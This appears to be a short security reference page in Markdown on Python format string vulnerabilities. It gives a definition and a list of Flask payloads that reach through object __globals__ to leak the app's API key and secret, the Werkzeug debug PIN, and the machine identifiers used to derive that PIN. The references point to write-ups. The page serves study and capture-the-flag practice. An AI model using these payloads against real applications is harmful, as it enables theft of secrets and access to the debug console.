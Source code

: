 ```yaml
---
title: "Format String"
description: "Python Format String"
lead: "Python Format String"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "python"
weight: 620
toc: true
---
```


## Definition

A **format string** vulnerability in Python occurs when user input is directly passed into a string formatting operation, such as `%s` or `{}` in `printf`-style or `.format()` methods, without proper sanitization, potentially allowing an attacker to perform unintended operations or disclose memory contents.

## Gadgets

### Flask

```
{self.__init__.__globals__[config][API_KEY]}
{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug]._machine_id}
{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug].uuid._node}
{ua.__class__.__init__.__globals__[t].sys.modules[threading]._active[%s]._target.__self__.app.pin}
{ua.__class__.__init__.__globals__[t].sys.modules[threading]._active[%s]._target.__self__.app.secret}
```

## References

- [https://podalirius.net/fr/articles/python-format-string-vulnerabilities/](https://podalirius.net/fr/articles/python-format-string-vulnerabilities/)
- [https://vozec.fr/writeups/tweedle-dum-dee/](https://vozec.fr/writeups/tweedle-dum-dee/)